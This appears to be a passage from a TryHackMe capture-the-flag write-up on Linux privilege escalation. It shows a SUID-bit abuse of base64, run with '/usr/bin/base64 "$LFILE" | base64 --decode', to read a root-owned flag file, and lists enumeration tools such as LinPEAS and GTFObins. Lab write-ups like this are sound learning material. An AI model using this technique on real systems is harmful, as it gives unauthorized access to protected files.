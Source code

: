 #### BASE64 SUID BIT CONFIGURATION
1. By a process of elimination, we can assume with a degree of certainty that flag2 is in the rootflag directory. 
2. We now know that base64 has a SUID bit set and the pathway is /usr/bin. 
3. Let's move into usr/bin and set this up. 
- ```cd usr/bin```
- LFILE=/home/rootflag/flag2.txt
- /usr/bin/base64 "$LFILE" | base64 --decode
  - GTFObins has the command: 
    - ```./base64 "$LFILE" | base64 --decode```
    - For ```./base64``` you'll substitute the file path that you were given when looking for files with SUID bits. In this case it was ```/usr/bin/base64```.

![flag1 capstone](https://github.com/ryangreggw/THM-BOXES/assets/25268281/ed621f1a-a63b-47dd-8d96-cf72e94c1adb)
![sudo find root](https://github.com/ryangreggw/THM-BOXES/assets/25268281/95fc75cd-c5ad-4544-8fe1-f74e3a414ddc)
![flag2 linpriv](https://github.com/ryangreggw/THM-BOXES/assets/25268281/0d65ca32-ac03-4146-9bc7-358ed3d8397b)
![file SUID root](https://github.com/ryangreggw/THM-BOXES/assets/25268281/d5540884-221a-4dd2-9bcc-bbc9d5e5f60e)
![base64 SUID bit](https://github.com/ryangreggw/THM-BOXES/assets/25268281/a5f8bfbf-3be6-444c-9703-a5b583fc5ffd)

### * NONE OF THE PRECEDING CODE WAS MINE AND I DO NOT TAKE CREDIT FOR IT. I DO TAKE CREDIT FOR THE MISTAKES, THOUGHTS, AND EXPRESSION OF SAID THOUGHTS. THE FOLLOWING ARE SOME OF THE RESOURCES THAT I USED: 
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
- LinEnum: https://github.com/rebootuser/LinEnum  
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester  
- Linux Smart Enumeration: https://github.com/diego-treitos/  linux-smart-enumeration  
- Linux Priv Checker: https://github.com/linted/linuxprivchecker 
- https://gtfobins.github.io/
  - list of UNIX binaries that can be used to bypass local security restrictions
- https://gtfobins.github.io/gtfobins/nano/#sudo
  - nano priv escalation
